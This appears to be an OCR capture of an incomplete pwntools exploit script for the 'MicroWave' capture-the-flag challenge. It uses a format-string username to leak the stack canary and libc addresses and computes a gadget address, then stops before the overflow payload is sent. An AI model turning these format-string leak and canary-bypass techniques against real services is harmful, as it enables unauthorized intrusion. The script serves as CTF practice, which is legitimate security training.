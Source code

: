 from pwn import *
context.arch='amd64'

PASSWORD = "n07_7h3_fl46"
magic_addr = 0x4652c
base_offset = 0xeb870

#p = remote('microwave.insomni.hack', 1337)
p = remote('127.0.0.1', 1337)

print p.recvuntil('[MicroWave]: ')

# select (1) connect
p.sendline("1")
p.recvuntil("username: ")

# send username
p.sendline("%p."*8)
p.recvuntil("password: ")
# send password
p.sendline(PASSWORD)

# read leaked addresses
ret = p.recvuntil('[MicroWave]: ')
addrs = ret.split()[1].split('.')
print addrs

# canary is the sixth element
canary = int(addrs[5], 16)

# libc address is the second element
libcaddr = int(addrs[1], 16)
libc_base = libcaddr - base_offset

# print some information
print 'canary is %s' % (hex(canary))
print "libc base: %s" % (hex(libc_base))
print "magic addr: %s" % (hex(libc_base + magic_addr))

# select (2) send tweet
p.sendline("2")
print p.recvuntil("#&gt; ")
